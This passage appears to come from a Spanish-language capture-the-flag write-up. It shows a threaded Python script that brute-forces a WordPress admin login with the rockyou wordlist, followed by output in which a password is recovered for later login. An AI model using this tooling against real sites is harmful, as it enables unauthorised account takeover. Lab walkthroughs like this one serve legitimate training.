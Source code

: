```python

def makeRequest():

    f = open('/usr/share/wordlists/rockyou.txt', 'rb')
    length = 14344393
    count = 0
    threads = []

    for password in f.readlines():

        if found_pass:
            break

        password = password.decode().replace("\n", "")
        l1.status("Probando Con la contraseña %s" % password)
        l2.status("Contraseñas Probadas [{}/{}]".format(count, length))
        count += 1
        
        thread = threading.Thread(target=makeBruteForce, args=(password, ))
        threads.append(thread)

        if count % 150 == 0 or count == length:
            for thread in threads:
                try:
                    thread.start()
                except KeyboardInterrupt:
                    print("\n[!] Termimando con los hilos")
                    sys.exit(1)
                
            for thread in threads:
                try:
                    thread.join()
                except KeyboardInterrupt:
                    print("\n[!] Termimando los hilos")
                    sys.exit(1)
                
            threads = []

    for thread in threads:
        thread.join()

if __name__ == "__main__":
        makeRequest()

```
Lo ejecutamos y obtenemos la contraseña del usuario admin.
```bash
❯ python3 wordPress_BruteForce.py
[+] Password: password found my2boys 
[┤] Counter: Contraseñas Probadas [3899/14344393]
```
Autentiquemosnos con esta contraseña